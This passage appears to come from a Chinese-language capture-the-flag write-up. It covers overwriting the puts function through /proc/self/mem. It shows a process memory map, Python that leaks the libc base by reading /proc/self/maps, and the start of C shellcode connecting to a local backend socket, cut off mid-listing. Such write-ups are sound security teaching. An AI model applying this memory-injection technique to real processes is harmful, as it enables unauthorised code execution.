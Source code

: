     >        00400000-00452000 r-xp 00000000 08:02 173521      /usr/bin/dbus-daemon
    >        00651000-00652000 r--p 00051000 08:02 173521      /usr/bin/dbus-daemon
    >        00652000-00655000 rw-p 00052000 08:02 173521      /usr/bin/dbus-daemon
    >        00e03000-00e24000 rw-p 00000000 00:00 0           [heap]
    >        00e24000-011f7000 rw-p 00000000 00:00 0           [heap]
    >        ...
    >        35b1800000-35b1820000 r-xp 00000000 08:02 135522  /usr/lib64/ld-2.15.so
    >        35b1a1f000-35b1a20000 r--p 0001f000 08:02 135522  /usr/lib64/ld-2.15.so
    >        35b1a20000-35b1a21000 rw-p 00020000 08:02 135522  /usr/lib64/ld-2.15.so
    >        35b1a21000-35b1a22000 rw-p 00000000 00:00 0
    >        35b1c00000-35b1dac000 r-xp 00000000 08:02 135870  /usr/lib64/libc-2.15.so
    >        35b1dac000-35b1fac000 ---p 001ac000 08:02 135870  /usr/lib64/libc-2.15.so
    >        35b1fac000-35b1fb0000 r--p 001ac000 08:02 135870  /usr/lib64/libc-2.15.so
    >        35b1fb0000-35b1fb2000 rw-p 001b0000 08:02 135870  /usr/lib64/libc-2.15.so
    >        ...
    >        f2c6ff8c000-7f2c7078c000 rw-p 00000000 00:00 0    [stack:986]
    >        ...
    >        7fffb2c0d000-7fffb2c2e000 rw-p 00000000 00:00 0   [stack]
    >        7fffb2d48000-7fffb2d49000 r-xp 00000000 00:00 0   [vdso]
    從以上訊息我們知道，/proc/[pid]/mem就是實際執行該隻process的memory，而/proc/[pid]/maps就是該隻process的memory mapping，所以關於怎麼利用可以看一下[csdn的這篇文章](https://blog.csdn.net/dog250/article/details/108618568)，基本上要做的事情和我們差不多，目標都是去修改/proc/[pid]/mem中的value，不過中間有很多東西需要考慮:
    1. 要寫甚麼shellcode
    2. 要寫去哪裡
    
2. 先看要寫去哪裡
    按照前面所說應該是要寫/proc/[pid]/mem，但因為前面有提到他只能被open / read / lseek給access，所以目標應該是找出lseek的offset，並且把噁爛shellcode放進去；另外一個問題是我們不知道要寫到哪裡，所以我們可以利用前面的arbitrary read去看process的mapping為何，如下
    ```python
    # Read /proc/self/maps to leak Libc Base
    maps_layout = read_any_file(b'/proc/self/maps').split('\n')
    libc_base = int(maps_layout[7][:12], 16)
    puts_addr = libc_base + libc.symbols['puts']
    log.success(f"Libc Base address: {hex(libc_base)}")
    log.success(f'Puts Address: {hex(puts_addr)}')
    ```
    這樣的話，我們就知道他位於整個memory layout，以及我們想要置換的puts symbols的位置
3. 要寫甚麼
    前面有提到我們需要寫shellcode進去，以替換puts的行為，所以我們需要寫些甚麼server才能噴flag給我們呢?如下
    ```cpp
    # Socket Config
    int fd = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in info;
    info.sin_family = PF_INET;
    info.sin_addr.s_addr = inet_addr("127.0.0.1");
    info.sin_port = htons(8765);

    # Connect to Backend
    connect(fd, (struct sockaddr *)&info, sizeof(info))
        